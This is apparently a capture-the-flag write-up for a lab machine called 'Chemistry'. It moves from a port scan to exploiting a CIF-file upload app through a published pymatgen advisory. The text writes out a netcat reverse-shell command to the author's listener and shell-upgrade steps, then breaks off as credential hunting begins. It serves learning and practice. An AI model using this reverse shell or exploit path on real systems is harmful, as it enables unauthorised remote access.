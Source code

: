 Hi everyone and welcome in my new write-up on the Chemistry box.

So let's start by making a quick scan:

<img width="846" alt="Screenshot 2024-10-29 at 18 40 23" src="https://github.com/user-attachments/assets/b7978e21-c9cd-4db0-9825-0c267e198795">

We can see that we have two open ports: 22 and 5000.
Let's get more info:

<img width="840" alt="Screenshot 2024-10-29 at 18 44 52" src="https://github.com/user-attachments/assets/829bd780-010f-4e3a-9e68-636a5f7d969b">

Ok so it seems there is a website running on the port 5000.
Let's investigate it like inspectors hehe.

<img width="1283" alt="Screenshot 2024-10-29 at 18 46 40" src="https://github.com/user-attachments/assets/866724fe-f5b4-4794-8841-ba3b45ba4ba8">

This is just a basic application that analyzes a CIF file that we can upload.
First we need to register to see this functionality.

<img width="1101" alt="Screenshot 2024-10-29 at 18 49 09" src="https://github.com/user-attachments/assets/75dd9564-e574-472c-b8bd-2ac42f9cec17">

So they give us a file example to show us what a cif file looks like and I have to admit it's a little strange. Never seen that kind of file before. But we take it, we learn a new type of file yeahhh.

After searching around (dir fuzzing and trying to bypass the upload functionality to upload a php file), I wanted to see if there was a known vulnerability about cif files. And yes I was right there is a github repo just for that.
Link: https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

Let's take a look at the PoC that seems to be our ticket to get a foothold on the server:

<img width="1007" alt="Screenshot 2024-10-29 at 18 57 58" src="https://github.com/user-attachments/assets/b399c195-b00a-404f-a2c3-d2d1b9e6d0a7">

So if we replace the "touch pwned" by any command it should work too.

Let's try to make a reverse shell. I replace the command by "busybox nc 10.10.14.129 4444 -e sh" as it seems to be the only shell that works on the system after trying the usual ones.

This is what the exploit looks like:

<img width="1100" alt="Screenshot 2024-10-29 at 19 05 27" src="https://github.com/user-attachments/assets/f64d08c5-12c8-4668-b61c-559f454dec36">
Let's upload it and see if that worked.

<img width="612" alt="Screenshot 2024-10-29 at 19 08 03" src="https://github.com/user-attachments/assets/254c7de3-a971-4512-8cd7-3bddf1fa3d01">

Yeah we successully got our rev shell.
We have a very poor shell, I upgraded it with the usual tty commands :
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z;stty raw -echo;
export TERM=xterm

Ok so now that we have a nice shell we can hack ! Uhhhhh work I mean ;)

After checking the home directory it seems that we need to find a way to get to user rosa first.
So we need to find her creds somwhere in the server. My experience tells me to always check the DB first!
